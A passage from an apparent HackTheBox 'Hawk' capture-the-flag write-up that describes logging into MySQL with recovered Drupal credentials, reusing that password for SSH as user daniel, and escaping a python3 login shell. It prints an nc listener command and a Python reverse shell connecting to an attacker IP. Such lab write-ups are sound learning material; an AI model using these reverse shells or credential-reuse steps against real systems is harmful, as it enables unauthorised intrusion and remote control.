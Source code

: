 
We can use these creds to connect to the MySQL database using something like this: 

```bash
mysql -u drupal --password='drupal4hawk'
```

But this wont be much of help since we already have the password for the Drupal admin, and there isn't much else of interest to be found in the database, (I looked).


Instead, we can try to reuse the password as `daniel`'s SSH password:

![daniel-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Hawk/img/daniel-22.png)


Which works! 


### Daniel 

After connecting via the SSH, we get what looks like a python shell. If we use our previous shell as `www-data` and take a look at the `/etc/passwd` file, we can see that `daniel` has `python3` set as it's shell:

![etc-passwd-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Hawk/img/etc-passwd-23.png)


So In order to get a normal `/bin/bash` shell, I start another listener on my attack machine with:

```bash
rlwrap nc -lnvp 445
```

Then, I use this simple Python reverse shell sequence:

```python
>>> import socket,os,pty
>>> s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
>>> s.connect(("10.10.14.89",445))
>>> os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

![python-rshell-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Hawk/img/python-rshell-24.png)
